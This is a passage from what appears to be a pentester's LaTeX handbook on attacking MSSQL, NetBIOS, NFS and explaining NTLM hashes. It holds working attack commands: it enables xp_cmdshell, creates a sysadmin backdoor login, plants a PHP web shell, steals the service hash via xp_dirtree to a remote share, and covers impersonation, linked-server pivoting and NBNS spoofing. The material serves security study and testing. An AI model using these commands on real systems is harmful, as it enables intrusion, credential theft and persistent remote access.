application developer a generic way to execute a procedure in a local or remote
process without having to understand the network protocols used to support the
communication, as specified in
\href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/290c38b1-92fe-4229-91e6-4fc376610c15}{MS-RPCE},
which defines an RPC over SMB Protocol that can use SMB Protocol named pipes as
its underlying transport.



\chapter{MSSQL}

\url{https://www.hackingarticles.in/mssql-for-pentester-metasploit/}

\section{introduction}
\href{https://www.microsoft.com/en-us/sql-server/sql-server-2019}{Microsoft
SQL (MSSQL)} is Microsoft's SQL-based relational database management system is
closed source and was initially written to run on Windows operating systems. It
is popular among database administrators and developers when building
applications that run on Microsoft's .NET framework due to its strong native
support for .NET. There are versions of MSSQL that will run on Linux and MacOS,
but we will more likely come across MSSQL instances on targets running
Windows.

\subsection{Default system databases}
MSSQL has default
\href{https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15}{system
databases} that can help to understand the structure of all the databases that
may be hosted on a target server. Here are the default databases and a brief
description of each:
\begin{itemize}
        \item {\bf master} Tracks all system information for an SQL server instance
        \item {\bf model} Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database
        \item {\bf msdb } The SQL Server Agent uses this database to schedule
            jobs and alerts
        \item {\bf tempdb} Stores temporary objects
        \item {\bf resource} Read-only database containing system objects
            included with SQL server
\end{itemize}

For more detailed info on some tables see
\href{https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/security-catalog-views-transact-sql?view=sql-server-ver16}{Security
Catalog Views}

\subsection{Authentication mechanisms}
MSSQL supports two
\href{https://docs.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server}{authentication
modes}, which means that users can be created in Windows or the SQL Server:
\begin{itemize}
    \item {\bf Windows authentication mode} 	This is the default, often
        referred to as integrated security because the SQL Server security
        model is tightly integrated with Windows/Active Directory. Specific
        Windows user and group accounts are trusted to log in to SQL Server.
        Windows users who have already been authenticated do not have to
        present additional credentials.
    \item {\bf Mixed mode} 	Mixed mode supports authentication by
        Windows/Active Directory accounts and SQL Server. Username and password
        pairs are maintained within SQL Server.
\end{itemize}

\section{Dangerous Settings}
This is not an extensive list because there are countless ways MSSQL databases
can be configured by admins based on the needs of their respective
organizations. We may benefit from looking into the following:
\begin{itemize}
    \item MSSQL clients not using encryption to connect to the MSSQL server
    \item The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
    \item The use of
        \href{https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15}{named
        pipes}
    \item Weak and default {\bf sa} credentials. Admins may forget to disable this account
\end{itemize}


\section{Interaction}
\href{https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver15}{SQL
Server Management Studio (SSMS)} comes as a feature that can be installed with
the MSSQL install package or can be downloaded and installed separately.

Many other clients can be used to access a database running on MSSQL. Including
but not limited to:
\begin{itemize}
    \item mssql-cli
    \item SQL Server PowerShell
    \item HediSQL
    \item SQLPro
    \item Impacket's mssqlclient.py~\ref{tool:impacket:mssqlclient}
\end{itemize}

\begin{verbatim}
mssqlclient.py Administrator@IP -windows-auth
select name from sys.databases

\end{verbatim}


\section{Footprint / enumeration}

\subsection{nmap}
\begin{verbatim}
jubeaz@htb[/htb]$ sudo nmap --script \
    ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,\
    ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,\
    ms-sql-dump-hashes \
    --script-args \
        mssql.instance-port=1433,mssql.username=sa,\
        mssql.password=,mssql.instance-name=MSSQLSERVER
    -sV -p 1433
\end{verbatim}

\subsection{metasploit}
\begin{verbatim}
use scanner/mssql/mssql_ping
\end{verbatim}

\section{Interaction}

\subsection{sqsh}
Sqsh is much more than a friendly prompt. It is intended to provide much of the
functionality provided by a command shell, such as variables, aliasing,
redirection, pipes, back-grounding, job control, history, command substitution,
and dynamic configuration. 

\begin{verbatim}
sqsh -S IP -U LOGIN -P PASSWORD
\end{verbatim}


\subsection{sqlcmd}

Windows sqlcmd allow to enter ransact-SQL statements, system procedures, and script files through a variety of available modes:
\begin{itemize}
    \item  At the command prompt.
    \item  In Query Editor in SQLCMD mode.
    \item  In a Windows script file.
    \item  In an operating system (Cmd.exe) job step of a SQL Server Agent job.
\end{itemize}

\subsection{dbeaver}

\subsection{Metasploit}

\begin{verbatim}
use auxiliary/admin/mssql/mssql_ntlm_stealer
use auxiliary/admin/mssql/mssql_escalate_dbowner
auxiliary/admin/mssql/mssql_escalate_execute_as
\end{verbatim}


\subsection{CrackMapExec}
\begin{verbatim}
#Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
\end{verbatim}


\subsection{SQL commands}
\begin{verbatim}
SELECT name FROM master.dbo.sysdatabases #Get databases
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES; #Get table names

#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;

#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, 
    sp.create_date, sp.modify_date, 
    case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status 
from sys.server_principals sp left join sys.sql_logins sl 
    on sp.principal_id = sl.principal_id 
where sp.type not in ('G', 'R') order by sp.name;

#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'
\end{verbatim}

\section{Command execution}


There are several methods to get command execution:
\begin{itemize}
    \item  \verb+xp_cmdshell+ 
    \item  adding
        \href{https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server}{extended
        stored procedures}, 
    \item
        \href{https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration}{CLR
        Assemblies}
    \item
        \href{https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15}{SQL Server Agent Jobs}
    \item
        \href{https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql}{external
        scripts}
\end{itemize}

With the appropriate privileges, SQL database can be used to execute system
commands or create the necessary elements to do it.

\subsection{xp\_cmdshell}
MSSQL has a
\href{https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15}{extended
stored procedures} called
\href{https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15}{xp\_cmdshell}
which allow us to execute system commands using SQL. \verb+xp_cmdshell+:
\begin{itemize}
        \item is a powerful feature and disabled by default. It can be enabled
            and disabled by using the
            \href{https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration}{Policy-Based
            Management} or by executing
            \href{https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option}{sp\_configure}
        \item spawn a  Windows process that  has the same security rights as the
            SQL Server service account
        \item  operates synchronously. Control is not returned to the caller until the command-shell command is completed
\end{itemize}

To Enable \verb+xp_cmdshell+ with \verb+sp_configure+
\begin{verbatim}
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.
RECONFIGURE
GO

-- To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1
GO

-- To update the currently configured value for this feature.
RECONFIGURE
GO
\end{verbatim}

to launch a command:
\begin{verbatim}
xp_cmdshell 'whoami'
GO
\end{verbatim}





\section{Read / Write local files}

\subsection{Write file}
To write files using MSSQL, we need to enable
\href{https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option}{Ole
Automation Procedures}, which requires admin privileges, and then execute some stored procedures to create the file

\begin{verbatim}
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO

DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO

\end{verbatim}

\subsection{Read file}
By default, MSSQL allows file read on any file in the operating system to which the account has read access.

\begin{verbatim}
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
\end{verbatim}

\section{Capture MSSQL Service Hash}
MSSQL service account hash can be stolen using \verb+xp_subdirs+ or
\verb+xp_dirtree+ undocumented stored procedures, which use the SMB protocol to
retrieve a list of child directories under a specified parent directory from
the file system. NTLMv2 hash can be grabbed either by
responder~\ref{tool:responder} or impacket
smbserver~\ref{tool:impacket:smbserver}.


\begin{verbatim}
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
\end{verbatim}



\subsection{User impersonation}
MSSQL Server has a special permission, named \verb+IMPERSONATE+, that allows
the executing user to take on the permissions of another user or login until
the context is reset or the session ends.

First, identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.
\begin{verbatim}
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
\end{verbatim}

Verify if current user has the sysadmin role:

\begin{verbatim}
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
\end{verbatim}

Impersonating the SA User

\begin{verbatim}
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
\end{verbatim}

It's recommended to run \verb+EXECUTE AS LOGIN+ within the master DB 
(\verb+USE master+), because
all users, by default, have access to that database. If a user you are trying
to impersonate doesn't have access to the DB you are connecting to it will
present an error. 

To revert the operation and return to our previous user, we can use the
Transact-SQL statement \verb+REVERT+.

\section{Communicate with Other Databases}
MSSQL has a configuration option called
\href{https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine}{linked
servers}. Linked servers are typically configured to enable the database engine
to execute a Transact-SQL statement that includes tables in another instance of
SQL Server, or another database product such as Oracle.

If we manage to gain access to a SQL Server with a linked server configured, we
may be able to move laterally to that database server. Administrators can
configure a linked server using credentials from the remote server. If those
credentials have sysadmin privileges, we may be able to execute commands in the
remote SQL instance. Let's see how we can identify and execute queries on
linked servers.

\begin{verbatim}
SELECT srvname, isremote FROM sysservers
GO

\end{verbatim}

see sysservers
\href{https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql}{Transact-SQL} for more information.

Next, we can attempt to identify the user used for the connection and its
privileges. The
\href{https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql}{EXECUTE}
statement can be used to send pass-through commands to linked servers. We add
our command between parenthesis and specify the linked server between square
brackets ([ ]).

\begin{verbatim}
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') 
    AT [10.0.0.12\SQLEXPRESS]
GO
\end{verbatim}
If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

As we have seen, we can now execute queries with sysadmin privileges on the
linked server. As sysadmin, we control the SQL Server instance. We can read
data from any database or execute system commands with \verb+xp_cmdshell+.


\section{post-exploit}
The user running MSSQL server will have enabled the privilege token
\verb+SeImpersonatePrivilege+. Priv esc to Administrator using this token
\href{https://github.com/ohpe/juicy-potato}{Juicy-potato} might be possible

\chapter{MySQL}



\chapter{NetBIOS: Network Basic Input Output System}
\section{Introduction}
\url{https://miloserdov.org/?p=4261}

\begin{itemize}
\item UDP 137: name services (netbios-ns)
\item UDP 138: datagram services
\item TCP 139: session services (netbios-ssn)
\end{itemize}

NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139.

\subsection{Name service  (NetBIOS-NS)}


  In order to start sessions or distribute datagrams, an application must  register its NetBIOS name using the name service. NetBIOS names are 16  octets in length and vary based on the particular implementation.  Frequently, the 16th octet, called the NetBIOS Suffix, designates the  type of resource, and can be used to tell other applications what type  of services the system offers. In NBT, the name service operates on UDP  port 137 (TCP port 137 can also be used, but rarely is).
  The name service primitives offered by NetBIOS are:
\begin{itemize}
\item Add name – registers a NetBIOS name.
\item Add group name – registers a NetBIOS "group" name.
\item Delete name – un-registers a NetBIOS name or group name.
\item Find name – looks up a NetBIOS name on the network. 
\end{itemize}


\subsection{Datagram distribution service (NetBIOS-DGM)}

  Datagram mode is connectionless; the application is responsible for  error detection and recovery. In NBT, the datagram service runs on UDP  port 138.
  The datagram service primitives offered by NetBIOS are:
\begin{itemize}
\item Send Datagram – send a datagram to a remote NetBIOS name.
\item Send Broadcast Datagram – send a datagram to all NetBIOS names on the network.
\item Receive Datagram – wait for a packet to arrive from a Send Datagram operation.
\item Receive Broadcast Datagram – wait for a packet to arrive from a Send Broadcast Datagram operation.
\end{itemize}

\subsection{Session service (NetBIOS-SSN)}

  Session mode lets two computers establish a connection, allows messages  to span multiple packets, and provides error detection and recovery. In  NBT, the session service runs on TCP port 139.
  The session service primitives offered by NetBIOS are:
\begin{itemize}
\item Call – opens a session to a remote NetBIOS name.
\item Listen – listen for attempts to open a session to a NetBIOS name.
\item Hang Up – close a session.
\item Send – sends a packet to the computer on the other end of a session.
\item Send No Ack – like Send, but doesn't require an acknowledgment.
\item Receive – wait for a packet to arrive from a Send on the other end of a session.
\end{itemize}

  In the original protocol used to implement NetworkBIOS services on  PC-Network, to establish a session, the initiating computer sends an  Open request which is answered by an Open acknowledgment. The computer  that started the session will then send a Session Request packet which  will prompt either a Session Accept or Session Reject packet.
  During an established session, each transmitted packet is answered by  either a positive-acknowledgment (ACK) or negative-acknowledgment (NAK)  response. A NAK will prompt retransmission of the data. Sessions are  closed by the non-initiating computer by sending a close request. The  computer that started the session will reply with a close response which  prompts the final session closed packet.

\section{identification}
\subsection{nmap}
\begin{verbatim}
sudo nmap -p U:137,138,T:137,139 -sU -sS -sV --script=banner _gateway/24
\end{verbatim}

nmap scripts:
\begin{itemize}
\item nbd-info: Displays protocol and block device information from NBD servers.

\item nbstat: Attempts to retrieve the target's NetBIOS names and MAC address.

\item broadcast-netbios-master-browser: Attempts to discover master browsers and the domains they manage.

\item nbns-interfaces: Retrieves IP addresses of the target's network interfaces via NetBIOS NS. Additional network interfaces may reveal more information about the target, including finding paths to hidden non-routed networks via multihomed systems.
\end{itemize}

\subsection{nbstat}

The nbtstat program is designed to display NetBIOS protocol statistics and current TCP/IP connections using NBT (NetBIOS over TCP/IP). The nbtstat program is preinstalled on Windows, that is, it does not need to be downloaded and installed, but it must be run on the command line. See “How to set up the PowerShell environment on Windows and Linux”. 

\url{https://miloserdov.org/?p=4107}
\subsection{whireshark}

 Wireshark Filter for:
 \begin{itemize}
    \item Name Service (NetBIOS-NS): \verb+nbns+
    \item Datagram Distribution Service (NetBIOS-DGM): \verb+nbdgm+
    \item Session Service (NetBIOS-SSN): \verb+nbss+
\end{itemize}

\section{Spoofing / man-in-the-middle}
\label{network:netbios:spoofing}
\subsection{Invoke-inveigh}

Inveigh~\ref{tool:inveigh} is a PowerShell ADIDNS/LLMNR/NBNS/mDNS/DNS spoofer and a man-in-the-middle attack tool designed to help penetration testers/red timers that are limited to Windows.

Inveigh tutorials are being prepared for this program for Miloserdov.org website.

An example of starting an inspectation without attack:
\begin{verbatim}
Import-Module ./Inveigh.psd1
Invoke-Inveigh -Inspect -ConsoleOutput Y
\end{verbatim}

\subsection{Responder}

Responder~\ref{tool:responder} is a tool for performing a man-in-the-middle attack against authentication methods in Windows. This program includes the LLMNR, NBT-NS and MDNS poisoner, thanks to which traffic is redirected with requests and authentication hashes. The program also includes HTTP/SMB/MSSQL/FTP/LDAP authentication rogue servers that support authentication methods such as NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and basic HTTP authentication, for which the Responder acts as a relay.

\subsection{Metasploit}
Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.

\verb+auxiliary/spoof/nbns/nbns_response+

\section{Enumeration}
The programs for scanning NetBIOS are mostly abandoned, since almost all information (name, IP, MAC address) can be gathered either by the standard Windows utility or by the Nmap scanner.

\begin{itemize}
\item NMBscan: scans the shares of a SMB/NetBIOS network, using the NMB/SMB/NetBIOS protocols. It is useful for acquiring information on a local area network for such purposes as security auditing. 
\item  NetBIOS Share Scanner: can be used to check Windows workstations and servers if they have available shared resources.
\item NBTscan is an IP scanning program for retrieving NetBIOS name information. 
\item fakenetbios: A family of tools designed to simulate Windows hosts (NetBIOS) on a LAN (local area network).
\item nbnspoof: NetBIOS Services Name Spoofer.
\item nbtenum: A utility for Windows that can be used to list NetBIOS information from a single host or range of hosts. To run on Windows.
\item nbtool: Several tools for exploring, attacking and communicating with NetBIOS and DNS.
\item nbname: Decodes and displays all the names of NetBIOS packets received on UDP port 137 and more! To run on Windows. 
\end{itemize}



\chapter{NFS: Network File System}

\section{introdutction}
Network File System (NFS) is a network file system developed by Sun
Microsystems uses between Linux and Unix systems  to access file systems over a
network as if they were local. NFS is an Internet standard that governs the
procedures in a distributed file system.

\begin{itemize}
        \item NFSv2 	It is older but is supported by many systems and was initially operated entirely over UDP.
        \item NFSv3 	It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients.
        \item NFSv4 	It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol.
\end{itemize}

NFS version 4.1 (RFC 8881) aims to provide protocol support to leverage cluster
server deployments, including the ability to provide scalable parallel access
to files distributed across multiple servers (pNFS extension). In addition,
NFSv4.1 includes a session trunking mechanism, also known as NFS multipathing.
A significant advantage of NFSv4 over its predecessors is that only one UDP or
TCP port 2049 is used to run the service, which simplifies the use of the
protocol across firewalls.

NFS is based on the Open Network Computing Remote Procedure Call
(ONC-RPC/SUN-RPC) protocol exposed on TCP and UDP ports 111, which uses
External Data Representation (XDR) for the system-independent exchange of data.
The NFS protocol has no mechanism for authentication or authorization. Instead,
authentication is completely shifted to the RPC protocol's options. The
authorization is taken from the available information of the file system where
the server is responsible for translating the user information supplied by the
client to that of the file system and converting the corresponding
authorization information as correctly as possible into the syntax required by
UNIX.

The most common authentication is via UNIX UID/GID and group memberships, which
is why this syntax is most likely to be applied to the NFS protocol. One
problem is that the client and server do not necessarily have to have the same
mappings of UID/GID to users and groups, and the server does not need to do
anything further. No further checks can be made on the part of the server. This
is why NFS should only be used with this authentication method in trusted
networks.

\section{Footprint / enumeration}

\subsection{nmap}

\begin{verbatim}
sudo nmap  -p111,2049 -sV -sC
sudo nmap  -p111,2049 -sV --script nfs*
\end{verbatim}

The \verb+rpcinfo+ NSE script retrieves a list of all currently running RPC services,
their names and descriptions, and the ports they use.

\section{Interaction}

\begin{verbatim}
showmount -e IP
mount -t nfs IP:/ MOUNT-POINT -o nolock
umount ./target-NFS

\end{verbatim}


\chapter{NTLM: NT Lan Manager}

\section{Introduction}
\label{network:ntlm:authentication}
LM and  NTLM here are the hash names, and NTLMv1 and NTLMv2 are authentication  protocols that utilize the LM or NT hash. Below is a quick comparison  between these hashes and protocols, which shows us that, while not  perfect by any means, Kerberos is often the authentication protocol of  choice wherever possible. It is essential to understand the difference  between the hash types and the protocols that use them.

\begin{tabular}{|l|l|l|l|l|}
 \hline \hline
 Hash     & Crypto    & Mutual & Msg Type & Trusted  \\
 Protocol & technique &  Authn &          & 3d Party \\
 \hline \hline
 NTLM & Sym  & No & Rnd nbr & DC \\
 NTLMv1 & Sym  & No & MD4 hash, rnd nbr & DC \\
 NTLMv2 & Sym  & No & MD4 hash, rnd nbr & DC \\
 Kerberos & Sym \& Asym & Yes & Encrypted ticket using DES, MD5 & DC, KDC \\
 \hline \hline
\end{tabular}

\subsection{Hashes}
\subsubsection{LM}

LAN Manager (LM) hashes are the oldest password storage Windows operating system. Due to significant security weaknesses in the hashing  algorithm it has been turned off by default since  Windows Vista/Server 2008. However, it is still common to encounter,  especially in large environments where older systems are still used.  Passwords using LM are limited to a maximum of 14  characters. Passwords are not case sensitive and are converted to  uppercase before generating the hashed value, limiting the keyspace to a  total of 69 characters making it relatively easy to crack these hashes  using a tool such as Hashcat.

An LM hash takes the form of \verb+299bd128c1101fd6+.


{\bf LMOWFv1} (implemented in the \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L742C1-L747}{compute\_lmhash function}),  used only by LM and NTLMv1, is an NT LAN Manager (LM) one-way function that creates a hash based on the user's password to generate a principal's security key. 

{\bf LMOWFv2} (implemented in the \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L896C1-L897}{LMOWFv2 function}) Based on The LAN Manager (LM) version 2, a one-way function (OWF) used to create a hash based on the user's password to generate a principal's secret key

\subsubsection{NTHash (NTLM)}

These hashes are stored locally in the SAM database or the \gls{win:NTDS.DIT}
database file on a Domain Controller. The protocol has two hashed  password
values to choose from to perform authentication: the LM hash (as discussed
above) and the NT hash, which is the MD4 hash of the little-endian UTF-16 value
of the password.

Even though they are considerably stronger than LM hashes (supporting the entire Unicode character set of 65,536 characters), they can still  be brute-forced offline relatively quickly using a tool such as Hashcat. NTLM is also vulnerable to the  pass-the-hash attack.

An NTLM hash looks like this:

\begin{verbatim}
Rachel:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::
\end{verbatim}

Looking at the hash above, we can break the NTLM hash down into its individual parts:
\begin{itemize}
    \item  \verb+Rachel+ is the username
    \item  \verb+500+ is the Relative Identifier (RID). 500 is the known RID for the administrator account
    \item  \verb+aad3c435b514a4eeaad3b935b51304fe+ is the LM hash and, if LM hashes are disabled on the system, can not be used for anything
    \item  \verb+e46b9e548fa0d122de7f59fb6d48eaa2+ is the NT hash. This hash can either be cracked offline or used for a pass-the-hash attack.
\end{itemize}

{\bf NTOWFv1} (used only by NTLMv1 and implemented in the \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L759-L769}{compute\_nthash} function), is an NT LAN Manager (NT) one-way function that creates a hash based on the user's password to generate a principal's security key:

{\bf NTOWFv2} (implemented in the \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L889C1-L894}{NTOWFv2 function}) Based on the NT LAN Manager (NTLM) (NT) version 2, a one-way function (OWF) used to create a hash based on the user's password to generate a principal's secret key.


\subsubsection{Domain Cached Credentials (MSCache2)}
In an AD environment, the authentication methods require the host we are trying to access to  communicate with the Domain Controller.  Microsoft developed the MS Cache v1 and v2 algorithm (also known as Domain Cached Credentials  (DCC) to solve the potential issue of a domain-joined host being unableto communicate with a domain controller.

Hosts save the last ten hashes for any domain users that successfully log into the machine in the \verb+HKEY_LOCAL_MACHINE\SECURITY\Cache+  registry key. These hashes cannot be used in pass-the-hash attacks.  Furthermore, the hash is very slow to crack.  

These hashes can be obtained by an attacker or pentester after gaining local admin access to a host and have thefollowing format:
\begin{verbatim}
$DCC2$10240#bjones#e4e938d12fe5974dc42a90120bd9c90f
\end{verbatim}



\subsection{Protocols}

NT Lan Manager (NTLM/MS-NLMP) is the name of a family of security protocols (LM, NTLMv1, and NTLMv2) used by application protocols to authenticate remote users and optionally provide session security when requested by the application.

The NTLM security protocols are all embedded protocols, meaning that although NTLM has messages and a state machine like other protocols, it does not have a network protocol stack layer. This nature of NTLM allows any protocol with a defined layer in the network stack (such as SMB, HTTP(S), and LDAP(S)) to utilize it.

NTLM is a challenge-response protocol that uses nonces, pseudo-random numbers generated for one-time use, as a defensive mechanism against replaying attacks.

Each protocol has two variants, connection-oriented and connectionless.

\begin{itemize}
    \item 
        Security Support Provider Interface (SSPI) is an API that allows connected applications to call one of several security providers to establish authenticated connections and to exchange data securely over those connections.
    \item  
        A security support provider (SSP) is a dynamic-link library (DLL) responsible for implementing the SSPI by exposing one or more security packages to applications; each security package provides mappings between an application's SSPI function calls and an actual security model's functions. 
    \item 
        NTLM SSP (\verb+%Windir%\System32\msv1_0.dll+) is a binary messaging protocol utilized by SSPI to facilitate NTLM challenge-response authentication and to negotiate options for integrity and confidentiality
\end{itemize}

Both domain-joined and workgroup computers can utilize NTLM for authentication

always keep in mind the following:
\begin{itemize}
    \item 
        The NTLM version used on hosts, whether NTLMv1 or NTLMv2, is \href{https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level}{configured out-of-band} before authentication.
    \item
        Using a secure mechanism, the client and server/DC share a secret key (the user's password's hash) before authentication.
    \item
        Neither plaintext credentials nor the shared secret key are sent over the wire.
\end{itemize}


\subsection{Authentication Workflow}

NT LAN Manager (NTLM)  is a
challenge-response authentication protocol and uses  three messages to
authenticate: 
\begin{enumerate}
    \item {\bf Negotiate} a client first sends a
        \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b34032e5-3aae-4bc6-84c3-c6d80eadf7f2}{NEGOTIATE\_MESSAGE} ({\bf Type 1 message}) to the server
    \item {\bf Challenge} the server sends a \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786}{CHALLENGE\_MESSAGE} ({\bf Type 2 message}) to the client. This is nothing more than a 64-bit random value that changes with each authentication request .
    \item {\bf Response} The client send a \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/033d32cc-88f9-4483-9bf2-b273055038ce}{AUTHENTICATE\_MESSAGE} (\bf Tpe3 message) which contains the encrypted challenge (using a hashed version of its password as the key),  its username and possibly its domain
        \end{enumerate}

\begin{figure}[!ht]
